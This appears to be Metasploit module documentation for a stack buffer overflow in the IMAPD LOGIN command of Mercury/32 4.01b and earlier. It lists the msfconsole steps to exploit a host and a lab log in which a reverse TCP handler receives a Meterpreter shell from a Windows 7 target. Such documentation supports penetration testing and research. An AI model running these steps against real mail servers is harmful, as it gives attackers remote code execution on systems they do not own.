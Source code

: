 Mercury/32 <= 4.01b contains an stack based buffer overflow in IMAPD LOGIN verb. Sending an specially crafted IMAP login command allows remote code execution.

## Vulnerable Application

This module exploits a stack buffer overflow in Mercury/32 <= 4.01b IMAPD LOGIN verb. By sending a specially crafted login command, a buffer is corrupted, and code execution is possible. This vulnerability was discovered by (mu-b at digit-labs.org).

* [Mercury/32 v4.01(https://www.exploit-db.com/apps/8e0bf8aec964af66a5d440ef705d548f-m32-401a.exe)
* [Mercury/32 v4.01b upgrade](http://web.archive.org/web/20070119125847if_/http://ftp.usm.maine.edu/pegasus/Mercury32/m32-401b.zip)

This module has been tested successfully on:

* Mercury/32 v4.01a on Windows XP SP3 (x86)
* Mercury/32 v4.01a on Windows 7 SP1 (x86)
* Mercury/32 v4.01b on Windows 7 SP1 (x86)

## Verification steps

  1. Install the vulnerable Mercury/32 application
  2. Start msfconsole
  3. Do: `use exploit/windows/imap/mercury_login`
  4. Do: `set RHOST IP`
  5. Do: `exploit`
  6. You should get a shell.

## Scenarios

### Mercury/32 v4.01a on Windows 7 SP1 x86
```
msf > use exploit/windows/imap/mercury_login1
msf exploit(windows/imap/mercury_login1) > set rhost 192.168.46.144
rhost => 192.168.46.144
msf exploit(windows/imap/mercury_login1) > exploit

[*] Started reverse TCP handler on 192.168.46.1:4444
[*] 192.168.46.144:143 - Sending payload (8931 bytes) ...
[*] Sending stage (179779 bytes) to 192.168.46.144
[*] Meterpreter session 1 opened (192.168.46.1:4444 -> 192.168.46.144:49219) at 2018-10-27 20:43:14 +0200

meterpreter >
Computer        : WIN-DQ8ELRSOJAO
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
